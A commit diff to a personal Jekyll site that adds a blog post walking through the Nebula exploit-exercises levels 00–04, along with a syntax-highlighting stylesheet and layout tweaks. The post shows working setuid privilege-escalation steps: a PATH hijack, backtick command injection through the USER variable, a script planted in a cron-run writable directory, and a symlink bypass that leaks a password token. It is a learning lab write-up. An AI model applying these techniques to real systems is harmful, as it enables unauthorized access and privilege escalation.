

Before and after one commit to jonatanhal/jonatanhal.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 1904 px of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed text lies outside the part shown.

Commit message:
changes to metadata descript, added highlighting for code, restructured layouts

```diff
--- a/_includes/head.html
+++ b/_includes/head.html
@@ -6,10 +6,11 @@
   <meta name="viewport" content="width=device-width, initial-scale=1" />
   <meta name="HandheldFriendly" content="True" />
   <!-- SEO _______________________ -->
-  <meta name="description" content="{{ page.excerpt || post.excerpt || site.description }}" />
+  <meta name="description" content="{{ page.excerpt || post.excerpt || site.description | remove: '<p>' | remove: '</p>' }}" />
   <!-- framework _________________ -->
   <link href='{{ site.baseurl }}assets/css/normalize.css' rel='stylesheet' type='text/css'>
   <link href='{{ site.baseurl }}assets/css/bootstrap.min.css' rel='stylesheet' type='text/css'>
+  <link href="{{ site.baseurl }}assets/css/highlight.css" rel="stylesheet" type"text/css">
   <!-- customs ___________________ -->
   <link href="{{ site.baseurl }}assets/css/custom.css" rel="stylesheet" type"text/css">
   <title>{{ site.title }} - {{ site.tagline }}</title>
--- a/_layouts/default.html
+++ b/_layouts/post-index.html
@@ -12,7 +12,7 @@
   {% include head.html %}
   <body>
     <div class="container">
-    {{ content }}
+      {{ content }}
     </div>
     {% include footer.html %}
   </body>
--- /dev/null
+++ b/_posts/2015-04-29-Exploit-Excercises-00-04.markdown
@@ -0,0 +1,392 @@
+---
+layout: post
+title: "Nebula Exploit Exercises {00..04}"
+---
+
+I'm pretty new to exploiting things on UNIX and I'll do these
+challenges to the best of my abilities. We're all beginners at some
+point right? :)
+
+If you go to the website [exploit-exercises](https://exploit-exercises.com/), you will find a
+whole bunch of series of challenges which will train you in different ways of making computers do what you want.
+
+I've completed some [nebula-challenges](https://exploit-exercises.com/nebula/) in my own
+time & will briefly go through & explain how I solved the challenges.
+
+The Nebula challenges are beginner-oriented & the only thing you will
+need is to download the ISO that they provide, boot it in a Virtual
+Machine (alternatively on your own computer of course) & give it your
+best shot! The learning-curve is alright & if you know your way
+around the command prompt it should be easy enough to wedge yourself
+through. A lot of the time, it boils down to getting execution of the
+code you want on the account you want, given you can sidestep a
+issue or gotcha.
+
+So let's fire up the ISO & exploit our way through these challenges,
+maybe we'll learn a few things along the way!
+
+# [level00](https://exploit-exercises.com/nebula/level00/)
+
+>## About
+>
+>This level requires you to find a Set User ID program
+>that will run as the “flag00” account. You could also find this by
+>carefully looking in top level directories in / for suspicious looking
+>directories.
+>
+>Alternatively, look at the find man page.
+>
+>To access this level, log in as level00 with the password of level00.
+>
+
+We're looking for a setuid binary, owned by `flag00`. So we need to
+*find* the parts about `find` that will help us with that.
+Considering I'm not super familiar with `find` (other than the
+occasional `find -type f -name theThingIwantToFind`), let's fire up
+the manual for find & look around.
+
+The flag `-user` followed by the username or the users numeric ID,
+will allow us to *find* files that the user owns. We'll use `-fprintf
+path/to/file formatting` to print out the path of the file that `find`
+found (in this case, our formatting is `"%p \n"` which means we simply
+place the found files path followed by a newline-character to the
+output).
+
+Did you get that? If not, let's just try it, what could go wrong?
+
+Logged in as `level00`, running the command `find / \( -type f -user
+flag00 -fprintf /tmp/suids "%p \n" \)` shows a whole bunch of
+error-messages telling us that we don't have permission to read a
+bunch of files, that's OK though, since we just shove the results we
+care about into `/tmp/suids`.
+
+Next, we can simply look at our results, located in `/tmp/suids` & go from there.
+
+~~~
+$ cat /tmp/suids
+/bin/.../flag00
+/home/flag00/.bash_logout
+/home/flag00/.bashrc
+/home/flag00/.profile
+/rofs/bin/.../flag00
+~~~
+
+Ahh yes, the "..."-directory within `/bin`, looks weird right? Let's run it and rejoice that we successfully completed the challenge!
+
+~~~
+$ ls -la /bin/.../flag00
+-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 flag00*
+$ /bin/.../flag00
+Congrats, now run getflag to get your flag!
+$ getflag
+You have successfully executed getflag on target account
+~~~
+
+* * *
+
+# [level01](https://exploit-exercises.com/nebula/level01/)
+
+>## About
+>
+>There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
+>
+>To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.
+
+This level provides source code of file `level1.c`, listed below
+
+{% highlight c %}
+#include <stdlib.h>
+#include <unistd.h>
+#include <string.h>
+#include <sys/types.h>
+#include <stdio.h>
+
+int main(int argc, char **argv, char **envp)
+{
+  gid_t gid;
+  uid_t uid;
+  gid = getegid();
+  uid = geteuid();
+
+  setresgid(gid, gid, gid);
+  setresuid(uid, uid, uid);
+
+  system("/usr/bin/env echo and now what?");
+}
+{% endhighlight %}
+
+Looking in the home directory of user `flag01`, we can see some basic stuff like bash-configuration, along with a executable with the suid bit set.
+
+~~~
+$ ls -l /home/flag01/flag01
+-rwsr-x--- flag01 level01 7322 2011-11-20 21:22 /home/flag01/flag01
+~~~
+
+**Pro-tip**: *`man` is your best friend.*
+
+[The manuals](http://linux.die.net/man/3/system) make it clear to
+avoid using the function-call if the executable is given suid
+privileges, and seeing how the previous function-calls involve getting
+& setting user and group IDs, we got ourselves a vulnerability.
+
+Because we can just set our own environment variables & make the program
+do what we want (we want to execute `getflag` on the `flag01` user-account).
+
+The string "/usr/bin/env echo and now what?" might seem like a
+reasonable line of shell-code, but since the code is using
+`/usr/bin/env`, it's trivial for us attackers to provide our very own
+environment variables.
+
+~~~
+$ mkdir /tmp/level01 && cd /tmp/level01
+$ cp /bin/sh ./echo
+$ cat << EOF > and
+#!/bin/sh
+/bin/getflag > out
+EOF
+$ chmod +x and
+~~~
+
+So what we did right there was to copy the executable `sh` into our
+directory & named it echo. We also created a very simple shell-script
+that will execute `/bin/getflag` and shove the output into the file
+`out`.
+
+Now we just need to modify the `PATH` environment variable so that the
+setuid binary located in `/home/flag01` will execute our version of echo,
+giving the file `and` as it's first parameter. Basically we're turning
+`echo and now what?` into `sh ourScript now what?`.
+
+~~~
+$ PATH=/tmp/level01 /home/flag01/flag01
+$ cat out
+You have successfully executed getflag on a target account
+~~~
+
+**Huzzah!**
+
+* * *
+
+# [level02](https://exploit-exercises.com/nebula/level02/)
+
+>## About
+>
+>There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
+>
+>To do this level, log in as the level02 account with the password level02. Files for this level can be found in /home/flag02.
+
+This level provides source code of file `level2.c`, listed below
+
+{% highlight c %}
+#include <stdlib.h>
+#include <unistd.h>
+#include <string.h>
+#include <sys/types.h>
+#include <stdio.h>
+
+int main(int argc, char **argv, char **envp)
+{
+  char *buffer;
+
+  gid_t gid;
+  uid_t uid;
+
+  gid = getegid();
+  uid = geteuid();
+
+  setresgid(gid, gid, gid);
+  setresuid(uid, uid, uid);
+
+  buffer = NULL;
+
+  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
+  printf("about to call system(\"%s\")\n", buffer);
+
+  system(buffer);
+}
+{% endhighlight %}
+
+This code is vulnerable to a similar exploit, since it's basically
+reading from `USER` environment variable & passing it to the `system`
+function call. This time though, `/bin/echo` is being referenced
+by it's absolute path rather than from some environment variable.
+
+It's a nice thing that the call to printf is there, it makes it easier
+for us to see what's being called when we are trying to exploit the
+executable.
+
+~~~
+$ USER=hello /home/flag02/flag02
+about to call system("/bin/echo hello is cool")
+hello is cool
+~~~
+
+Sometimes when writing a shell-script, special characters are used
+whenever you want to separate command without breaking the line, or,
+depending if one execution was successful; execute another program.
+lot more other special characters used in shell programming; Like
+backticks!
+
+Backticks are awesome, in shell programming they are used as a way to
+let the output of a executed program "fill" into your own command.
+
+~~~
+$ USER="\`/bin/getflag\`" /home/flag02/flag02
+about to call system("/bin/echo `getflag` is cool")
+You have successfully executed getflag on a target account is cool
+~~~
+
+It's important to escape the backticks, so as we are not falling in
+our own trap. But there you have it.
+
+* * *
+
+# [level03](https://exploit-exercises.com/nebula/level03/)
+> ## About
+>
+>Check the home directory of flag03 and take note of the files there.
+>
+>There is a crontab that is called every couple of minutes.
+>
+>To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03.
+
+*there's no source provided in this level*
+
+After logging in as `level03`, we'll have a look around `/home/flag03/`.
+
+~~~
+$ ls -la /home/flag03
+...
+drwxrwxrwx 1 flag03 flag03  40 2011-11-20 21:22 writable.d
+-rwxr-xr-x 1 flag03 flag03  98 2011-11-20 21:22 writable.sh
+...
+$ cat /home/flag03/writable.sh
+#!/bin/sh
+
+for i in /home/flag03/writable.d/* ; do
+		(ulimit -t 5; bash -x "$i")
+		rm -f "$i"
+done
+
+~~~
+
+All the little shellscript does is run everything located in the
+`writable.d` directory & then deletes everything in the directory.
+
+Execution of `getflag` on the target account is thus trivial.
+
++ Create the shellscript & make it executable
+
+~~~
+$ cat << EOF > /home/flag03/writable.d/a.sh
+#!/bin/bash
+getflag > /tmp/flag03_output
+EOF
+$ chmod +x /home/flag03/writable.d/a.sh
+~~~
+
++ Wait for the shellscript to run & confirm that it worked.
+
+~~~
+$ cat /tmp/flag03_output
+You have successfully executed getflag on a target account
+~~~
+
+* * *
+
+# [level04](https://exploit-exercises.com/nebula/level04/)
+
+>## About
+>
+>This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)
+>
+>To do this level, log in as the level04 account with the password level04. Files for this level can be found in /home/flag04.
+
+This level provides source code of file `level4.c`, listed below.
+
+{% highlight c %}
+#include <stdlib.h>
+#include <unistd.h>
+#include <string.h>
+#include <sys/types.h>
+#include <stdio.h>
+#include <fcntl.h>
+
+int main(int argc, char **argv, char **envp)
+{
+  char buf[1024];
+  int fd, rc;
+
+  if(argc == 1) {
+      printf("%s [file to read]\n", argv[0]);
+      exit(EXIT_FAILURE);
+  }
+
+  if(strstr(argv[1], "token") != NULL) {
+      printf("You may not access '%s'\n", argv[1]);
+      exit(EXIT_FAILURE);
+  }
+
+  fd = open(argv[1], O_RDONLY);
+  if(fd == -1) {
+      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
+  }
+
+  rc = read(fd, buf, sizeof(buf));
+
+  if(rc == -1) {
+      err(EXIT_FAILURE, "Unable to read fd %d", fd);
+  }
+
+  write(1, buf, rc);
+}
+{% endhighlight %}
+
+For reference, here's a look at the directory.
+
+~~~
+$ ls -l /home/flag04/
+-rwsr-x--- 1 flag04 level04 7428 2011-11-20 21:52 flag04
+-rw------- 1 flag04 flag04    37 2011-11-20 21:52 token
+~~~
+
+The problem with the program as it's defined above is the following line of code.
+
+{% highlight c %}
+...
+// strstr is used to locate a sub-string,
+// so we can't provide an absolute path to fool the program with.
+if(strstr(argv[1], "token") != NULL) {
+...
+// We actually need read privileges on the file provided through args
+// otherwise, things will blow up when we check fd for -1
+fd = open(argv[1], O_RDONLY);
+...
+{% endhighlight %}
+
+And that's the crux of the problem we're faced with. Unable to access
+the file & on a train heading to frowntown, all aboard.
+
+**Unless**, there's a way of referencing the token-file without it's
+name & somehow having read privileges on it.
+
+What about links? We can create a link to reference the token-file &
+provided we don't name it token, we should be OK, since we do have
+read-access to the link-file itself.
+
+{% highlight sh %}
+$ ln -s /home/flag04/token /tmp/lol
+$ /home/flag04/flag04 /tmp/lol
+06508b5e-8909-4f38-b630-fdb148a848a2
+$ # Let's try authenticating as flag04 using that UUID as password
+$ su - flag04
+Password:
+flag04@nebula:~ $ # YAY!
+flag04@nebula:~ $ getflag
+You have successfully executed getflag on a target account
+{% endhighlight %}
+
+Boom goes the dynamite!
+
+**Thank you for reading this post** on the first 5 challenges in the
+nebula exploit series, I hope my ramblings were bearable!
--- /dev/null
+++ b/assets/css/highlight.css
@@ -0,0 +1,62 @@
+.hll { background-color: #ffffcc }
+.c { color: #408080; font-style: italic } /* Comment */
+.err { border: 1px solid #FF0000 } /* Error */
+.k { color: #008000; font-weight: bold } /* Keyword */
+.o { color: #666666 } /* Operator */
+.cm { color: #408080; font-style: italic } /* Comment.Multiline */
+.cp { color: #BC7A00 } /* Comment.Preproc */
+.c1 { color: #408080; font-style: italic } /* Comment.Single */
+.cs { color: #408080; font-style: italic } /* Comment.Special */
+.gd { color: #A00000 } /* Generic.Deleted */
+.ge { font-style: italic } /* Generic.Emph */
+.gr { color: #FF0000 } /* Generic.Error */
+.gh { color: #000080; font-weight: bold } /* Generic.Heading */
+.gi { color: #00A000 } /* Generic.Inserted */
+.go { color: #888888 } /* Generic.Output */
+.gp { color: #000080; font-weight: bold } /* Generic.Prompt */
+.gs { font-weight: bold } /* Generic.Strong */
+.gu { color: #800080; font-weight: bold } /* Generic.Subheading */
+.gt { color: #0044DD } /* Generic.Traceback */
+.kc { color: #008000; font-weight: bold } /* Keyword.Constant */
+.kd { color: #008000; font-weight: bold } /* Keyword.Declaration */
+.kn { color: #008000; font-weight: bold } /* Keyword.Namespace */
+.kp { color: #008000 } /* Keyword.Pseudo */
+.kr { color: #008000; font-weight: bold } /* Keyword.Reserved */
+.kt { color: #B00040 } /* Keyword.Type */
+.m { color: #666666 } /* Literal.Number */
+.s { color: #BA2121 } /* Literal.String */
+.na { color: #7D9029 } /* Name.Attribute */
+.nb { color: #008000 } /* Name.Builtin */
+.nc { color: #0000FF; font-weight: bold } /* Name.Class */
+.no { color: #880000 } /* Name.Constant */
+.nd { color: #AA22FF } /* Name.Decorator */
+.ni { color: #999999; font-weight: bold } /* Name.Entity */
+.ne { color: #D2413A; font-weight: bold } /* Name.Exception */
+.nf { color: #0000FF } /* Name.Function */
+.nl { color: #A0A000 } /* Name.Label */
+.nn { color: #0000FF; font-weight: bold } /* Name.Namespace */
+.nt { color: #008000; font-weight: bold } /* Name.Tag */
+.nv { color: #19177C } /* Name.Variable */
+.ow { color: #AA22FF; font-weight: bold } /* Operator.Word */
+.w { color: #bbbbbb } /* Text.Whitespace */
+.mb { color: #666666 } /* Literal.Number.Bin */
+.mf { color: #666666 } /* Literal.Number.Float */
+.mh { color: #666666 } /* Literal.Number.Hex */
+.mi { color: #666666 } /* Literal.Number.Integer */
+.mo { color: #666666 } /* Literal.Number.Oct */
+.sb { color: #BA2121 } /* Literal.String.Backtick */
+.sc { color: #BA2121 } /* Literal.String.Char */
+.sd { color: #BA2121; font-style: italic } /* Literal.String.Doc */
+.s2 { color: #BA2121 } /* Literal.String.Double */
+.se { color: #BB6622; font-weight: bold } /* Literal.String.Escape */
+.sh { color: #BA2121 } /* Literal.String.Heredoc */
+.si { color: #BB6688; font-weight: bold } /* Literal.String.Interpol */
+.sx { color: #008000 } /* Literal.String.Other */
+.sr { color: #BB6688 } /* Literal.String.Regex */
+.s1 { color: #BA2121 } /* Literal.String.Single */
+.ss { color: #19177C } /* Literal.String.Symbol */
+.bp { color: #008000 } /* Name.Builtin.Pseudo */
+.vc { color: #19177C } /* Name.Variable.Class */
+.vg { color: #19177C } /* Name.Variable.Global */
+.vi { color: #19177C } /* Name.Variable.Instance */
+.il { color: #666666 } /* Literal.Number.Integer.Long */
--- a/index.html
+++ b/index.html
@@ -1,6 +1,6 @@
 ---
-layout: default
-title: Home
+layout: post-index
+title: Latest Posts
 ---
 {% for post in paginator.posts %}
 <div class="row post">
```
Also changed, not shown: _layouts/page.html (+18 -3 lines), _layouts/post.html (+19 -3 lines).
